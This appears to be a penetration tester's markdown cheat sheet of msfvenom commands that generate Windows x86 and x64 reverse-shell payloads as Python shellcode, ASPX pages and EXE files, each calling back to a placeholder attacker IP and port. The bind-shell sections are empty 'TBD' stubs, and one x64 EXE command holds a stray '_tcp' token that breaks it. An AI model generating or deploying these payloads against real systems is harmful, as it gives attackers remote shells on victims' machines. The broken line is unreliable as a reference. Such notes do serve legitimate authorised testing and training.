 # Msfvenom

## Windows payloads

### x86

#### Reverse shell

```bash
# Python - variable $shell - bad chars
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

#### Bind

```bash
TBD
```

### x64

#### Reverse shell

```bash
# Python - variable $shell - bad chars
msfvenom -a x64 -p windows/x64/shell_reverse_tcp  LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x64 -p windows/x64/shell_reverse_tcp  LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x64 -p windows/x64/shell_reverse_tcp _tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

#### Bind

```bash
TBD
```

## Links

[HackNotes - Msfvenom](https://nozerobit.gitbook.io/hacknotes/shells/msfvenom)
[MSFVenom](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
